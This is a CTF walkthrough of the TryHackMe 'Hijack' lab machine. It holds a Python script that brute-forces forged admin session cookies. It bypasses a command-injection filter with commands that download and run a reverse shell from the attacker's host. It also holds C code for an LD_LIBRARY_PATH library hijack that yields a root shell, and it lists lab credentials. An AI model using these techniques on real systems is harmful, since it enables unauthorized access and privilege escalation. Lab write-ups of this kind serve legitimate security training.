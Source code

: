<h3> Hijack TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f4519c5a-bf39-44bd-989a-195f14153a0c)

Been long since I did a machine from TryHackMe but recently a friend of mine showed me this box so I decided to do it today

First thing first as always is enumeration

I started with an nmap scan and on doing so got me this available tcp ports open
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f87e8f09-67ae-40d2-b363-df0a3f251814)

Ok cool we have ftp, ssh, http and nfs open

Checking the mounts on nfs shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9cbe16a7-bd94-4af9-b594-cc3e375308df)

So anyone can mount the share on `/mnt/share`

I mounted it and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c244adfe-248f-4ee3-9d4c-d0df276b74c1)

```
- mkdir mnt
- sudo mount -t nfs 10.10.38.234:/mnt/share mnt
```

Well we can't access the mounted share cause our user & group id isn't `1003` but `1001`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096ae2e0-424f-4142-9298-836923711705)

To solve that I just changed the value from my `/etc/passwd` file (but u can actually create a dummy account and make the uid/gid 1003 then delete when done ...... as for me i'm too lazy to do that)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32dc459d-a804-457e-b8c2-9f8af0fe0268)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f30871f0-fe8a-4822-bc7d-5ab6a1831519)

```
ftp creds :

ftpuser:W3stV1rg1n14M0un741nM4m4
```

Cool we have the ftp credentials now we can unmount the share and continue enumeration
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b28b3bc2-13e9-42e2-9192-4f32c31c5a22)

Let us check ftp shall we?
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9598e72-db0f-4502-b673-de6a8cc40f6b)

That seems to be like a user directory and also two non default files are there (which are hidden) 

After transferring it to my host I checked it's content and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26fd23bf-0b0c-4dce-a5d3-ab513dfbadf7)

```
➜  Hijack cat .from_admin.txt 
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
➜  Hijack
```

From this note we can tell there's a user called `admin` and he made a password list containing safe passwords. Also he says something to the user `rick` about rate limiting login attempts inorder to prevent future brute force attack

Cool so let's move to the webapp

One thing we can try here is to attempt brute force on ssh for user `admin / rick / root` with the password list but that won't work :P

Time to move to the webapp 

![giphy](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09557d16-86b1-4eaf-834e-ec228f5613f5)

Going over to port 80 which is the webserver shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58fae9ca-5379-40a8-a7ee-d715a04062bd)

So we can either login or create account

To save us the trouble of stress I just created an account
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/acd32ee8-8000-4d1f-83fc-508b12e7e482)

Now we can login with the credential `mud:password`

One thing you'd immediately notice is the `Administration` panel 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fba37f5b-b7aa-4b45-a391-1267433727ea)

If you click that you'd see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/181bbdb4-03f8-4d64-abce-7be6898894b3)

So we need to be logged in as admin before we can access that

Often when webapp checks this kind of permission it either gets it from a database or it can be the cookie 

Since we have no sort of database access here I checked the cookie and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bd98d584-a07d-43ab-a9b8-9b5f4ef25d78)

Normally when I see `PHPSESSID` as the cookie name I don't really check it because it's usually some random value but that isn't the case here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee5af735-fbb5-441b-8d6e-17610f0caeea)

From cyberchef we can see that it decoded from base64 and has `admin` + `:` + some_hash_value

Using [crackstation](https://crackstation.net/) the hash decoded to `password` and I got the hash type to be `MD5`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6f1f459d-5286-4ca1-ba89-f091a239d39e)

At this point we can either do two things:
- Brute force the admin account
- Do some cookie forgery till we get the right admin cookie session

The first case won't be of benefit to us as there's going to be rate limit according to the note from admin 

But the other case will work cause the rate limit is just placed on the login page but not the amount of time you access the web page which makes sense

Now inorder to do that we need to convert `admin:{md5_of_password}` to base64 then make a `GET` request to `/` and if we get a content length which differs from the preceding one then we have our right session

I wrote a python script to do that:

```python
import requests
import hashlib
from base64 import b64encode as encode

url = "http://10.10.182.53/index.php"

with open("passwords.txt", 'r') as fp:
    for password in fp:
        passwd = password.strip('\n').encode()
        hash = hashlib.md5(passwd).hexdigest()
        value = f"admin:{hash}"
        payload = encode(value.encode())
        cookie = {"PHPSESSID": payload.decode()}
        req = requests.get(url, cookies=cookie)
        
        if len(req.text) != 487:
            print(f"Potential Cookie: {payload.decode()}")
            break
```

After running it I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9042b0c-a755-44d1-be8d-37b3539c7d80)

```
➜  Hijack python3 check.py
Potential Cookie: YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU=
➜  Hijack
```

Now we can change the cookie to that and should be logged in as admin
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/574d00ce-0b6a-4eb4-a0d9-dba14c716239)

Cool let us access the administrator panel
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9420e836-d8a0-46fc-b06f-feb34c254174)

That claims to do a service check on the provided service name

I put `apache2` since that's currently running and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f6434c93-9c0e-4937-a940-31016f972937)

This tells us that it is likely running a bash command with our argument provided

This means we can try inject our own command leading to command injection

I first tried the generic payload `;` and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/607e756f-7866-42d4-b3e6-68dfaaabd0bd)

```
Command injection detected, please provide a service.
```

Fancy! This can be bypassed easily using `$(command)`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/295f54d7-ea98-4b9e-85ad-ddca20bd2818)

So I just got a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6a307f94-9fa3-45d5-a3f0-9c40a7c983b0)

```
- $(curl 10.6.80.113/rev.sh -o /tmp/a)
- $(bash /tmp/a)
```

In the current directory of the web app shows a configuration file which holds mysql credential
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a556c0a-d549-4193-aeb7-0f3807b9e83a)

Using the password worked for user `rick` and we can now grab the user flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46ef276a-6fd6-451d-b8b6-adbc49675955)

```
rick:N3v3rG0nn4G1v3Y0uUp
```

Time for privilege escalation 

Checking sudo permission shows this

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/12d68db3-14e6-475b-8f8d-56d282a75a9b)

So we can run `/usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2` as `root` 

But one interesting configuration is that we can specify the environment LD Library Path 

We can get the list of library going to be called when the run the `apache2` binary using `ldd` 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f84960a7-82f5-4c81-b9ef-3c72f9282517)

Simple google search on how to privesc should lead you at least [here](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/):

In this case I'll hijack the library which is `libcrypt.so.1` 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/38e06c23-5d74-412a-9dc0-4f67e35083d2)

Here's the C code:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

To compile run this:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pwn.c
```

Now we can spawn a root shell 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43fbbb4c-f2a9-4ed5-96cb-8542e63467cb)

```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

That's all xD

